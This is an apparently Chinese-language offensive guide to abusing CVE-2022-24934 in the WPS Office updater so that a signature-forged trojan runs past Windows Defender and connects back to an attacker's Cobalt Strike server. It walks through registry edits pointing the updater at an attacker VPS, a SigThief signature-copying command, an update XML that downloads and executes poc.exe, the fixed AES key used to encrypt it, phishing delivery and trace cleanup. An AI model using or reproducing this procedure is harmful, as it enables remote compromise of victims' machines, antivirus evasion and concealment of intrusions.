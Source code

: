 利用wps的相关程序对windows系统进行攻击其实已经出现过一些了，比如利用wps的wpscloudsvr.exe来绕过UAC实现提权/白加黑实现免杀等。这次的CVE-2022-24934也为我们免杀提供了一个新的思路。 

利用场景：<br />任意用户，只要是可以用来进行登录的那种， 就可以使用这种方法绕过defender等杀软的动态查杀上线。在只有webshell的情况下，只要不是像iis权限那样低，一般也是可以使用这种方法上线的（已测试）。因此这种方法也会比较适合钓鱼攻击，因为所使用的两个exe文件都是可以通过查杀顺利运行的（使用defender和云沙箱都可以通过）。

优势：<br />目前来看，可以通过defender动态查杀的方法并不是很多，而且很多方法都随着defender自己的升级失效了。本次使用的wpsupdate漏洞免杀defender的方法，在短期看是无法通过defender升级解决，且由于这个程序可以独立于wps主程序运行，因此这种方法即使在用户未安装wps的情况下，依然可以顺利上线（当然同样的道理，如果用户已经更新到了比较安全的版本，我们也可以使用投递一个带有漏洞的wpsupdate.exe的方法实现上线）。

缺点：<br />使用过程过于复杂，这就是为什么需要写文档来介绍的原因。而且确实由于毕竟还是涉及到了修改注册表的操作，虽然可以用于登录的低权限test用户可以顺利上线，但当只有一个webshell且权限为iis的时候是没办法使用这种方法的。由于会修改注册表，用来投递上线木马的vps可能会暴露在防守人员面前，需要在完成上线操作后尽快恢复正常。

使用方法：<br />分为服务器端和客户端，服务器端可以架设在我们控制的vps上，客户端的部分则需要我们使用一些手段投递到受害者的主机上。接下来分别讲一下需要进行的操作：<br />客户端：<br />update.reg：需要修改的两个注册表项，内容如下：
```python
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Kingsoft\Office\6.0\Common]
"UpdateSvr"="http://192.168.1.1/update_config.bin"

[HKEY_CURRENT_USER\Software\Kingsoft\Office\6.0\Common\updateinfo]
"CheckInterval"=dword:00000000
```
需要我们自己修改的地方只有上面的“192.168.1.1”的位置，改为受害者机器可以访问到的vps的地址。<br />补充一下，如果想要修改注册表的话，可以把上面的reg文件直接导入到注册表中，也可以使用cmd命令：reg import update.reg来修改，也可以使用exe文件进行修改，这个根据使用场景不同，可以灵活选择。<br />wpsupdate.exe：正常但是有漏洞的wps升级程序，这个不需要任何操作。

服务器端：<br />poc.exe：进行静态免杀的上线木马。需要进行的操作是使用SigThief工具将wpsupdate.exe的签名复制到poc.exe中。
```python
python .\sigthief.py -i .\wpsupdate.exe -t .\poc0.exe -o poc.exe
```
update_config.bin：由xml文件进行默认密钥AES加密生成。想要生成bin文件，首先需要对xml文件进行修改：
```python
<?xml version="1.0" encoding="utf-8"?>
<update protocol="1.0">
    <actions>
        <action id="download">
            <files svr="http://127.0.0.1" downdir="%localappdata%">
                <file url = "/poc.exe" md5="c66f25dd442312b30f41bffb2f5bd0d5" size="25520"/>
            </files>
        </action>
        <action id="updatesetting">
            <infos>
                <info id = "1" fun="execute" param="JWxvY2FsYXBwZGF0YSVccG9jLmV4ZTtkR1Z6ZEY5d1lYSmhiUT09"/>
            </infos>
        </action>
    </actions>
</update>
```
这里需要修改的地方有以下几处，假设我们把文件都默认为poc.exe的话，修改得地方是最少的：<br />svr：需要改成受害者机器可以访问到的vps（不一定要和注册表中的一致，但是需要可以访问到）<br />md5：生成的木马文件的md5值，这里需要注意，一定要等到所有操作都完成（静态免杀、添加数字签名）后再计算md5，同理也需要修改size。<br />md5的计算可使用：certutil -hashfile poc.exe MD5<br />文件大小的计算可以自己计算，也可以使用在线转换网站：[https://www.bejson.com/convert/filesize/](https://www.bejson.com/convert/filesize/)

如果文件名不修改的话，就可以开始进行下一步了。但是如果文件名称需要改的话，底下的param就需要修改了，这个字符串是由两次base64 encode生成的，我们需要改的就是第一次base64 decode之后看到的一个文件名，然后直接再encode 一次生成对应param参数即可。<br />xml文件生成bin文件的操作使用openssl完成：
```python
openssl enc -aes-128-ecb -nosalt -K 886B1AB6F1FC1D6670EFA2D121039A56 -in update_config.xml -out update_config.bin
```
这里的key是不变的，只要我们使用这个漏洞进行攻击，就不用改-K后面的参数。<br />两个文件都处理完后，放到一个可以接受post请求的服务器目录下（我这里使用的是HFS这个工具，但是也可以使用其他的）。在客户端运行首先运行注册表导入的exe（也可以使用命令行，都是一样的）修改注册表后，运行wpsupdate，即可等待cs上线。

需要注意的是，成功上线的话，需要wpsupdate向我们搭建的服务器请求两个文件：Update_config.bin和poc.exe，如果我们看服务器的日志记录，发现只请求了一个的话，可能就是xml某个地方参数写错了，或者是之前的一次攻击没有清除掉原来落地的文件等原因，需要再排查一下。<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/12414108/1660532908988-1ae9e84c-e120-4c38-93a8-0608dd00718c.png#clientId=u633f6fa2-6b1b-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=93&id=ufc2bdc80&margin=%5Bobject%20Object%5D&name=image.png&originHeight=93&originWidth=1266&originalType=binary&ratio=1&rotation=0&showTitle=false&size=8169&status=done&style=none&taskId=uc16afc0a-21be-4d4e-a4ec-647da14c79b&title=&width=1266)

清除痕迹：

1. 注册表项，参考上面的注册表内容，成功上线后即可恢复原始值（这里给一个参考：[http://update.wps.cn/updateserver/update;http://update2.wps.cn/updateserver/update](http://update.wps.cn/updateserver/update;http://update2.wps.cn/updateserver/update)）。
2. 落地的poc文件和注册表文件，注册表文件在修改完注册表后即可删除，poc文件的位置固定在C:\Users\用户名\AppData\Local\poc.exe，需要的话请及时删除，未删除无法进行再次攻击。




